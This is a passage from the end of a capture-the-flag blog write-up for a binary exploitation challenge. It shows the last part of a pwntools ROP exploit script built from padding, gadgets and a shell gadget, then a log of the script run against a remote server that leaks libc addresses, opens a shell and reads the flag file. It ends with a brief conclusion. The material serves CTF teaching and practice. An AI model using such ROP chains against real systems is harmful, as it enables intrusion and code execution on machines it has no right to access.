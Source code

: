 payload += b"A" * 264
payload += p64(pop_rsi_r15)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(pop_rdx_r12)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(pop_rbp)
payload += p64(new_rbp_value)
payload += p64(sys_gadget)

io.sendline(payload)
io.interactive()
{% endhighlight %}

Running it on the remote address results in a shell:

{% highlight auto %}
$ python exploit_remote.py 
[+] Opening connection to 34.89.143.158 on port 31042: Done
[*] puts address: 0x7efcd29df5a0
[*] LIBC base address: 0x7efcd2958000
[*] gadget address: 0x7efcd2a3ece9
[*] Switching to interactive mode
Solve this challenge to prove your understanding to black magic.
$ id
uid=1000(ecsc) gid=3000 groups=3000,2000
$ ls -l
total 20
-rwxr-xr-x 1 root root    70 May 13 09:37 flag
-rwxr-xr-x 1 root root 14520 May 13 09:37 pwn
$ cat flag
[REDACTED]
{% endhighlight %}

## Conclusion
Even though this challenge had the word 'baby' in its title, it took me about 5 hours to solve it. You can find the scripts used in this [on my GitHub](https://github.com/Yakuhito/rop-with-one-gadget/). As always, you can message me on Twitter with any questions you might have.

Until next time, hack the world.

yakuhito, over.
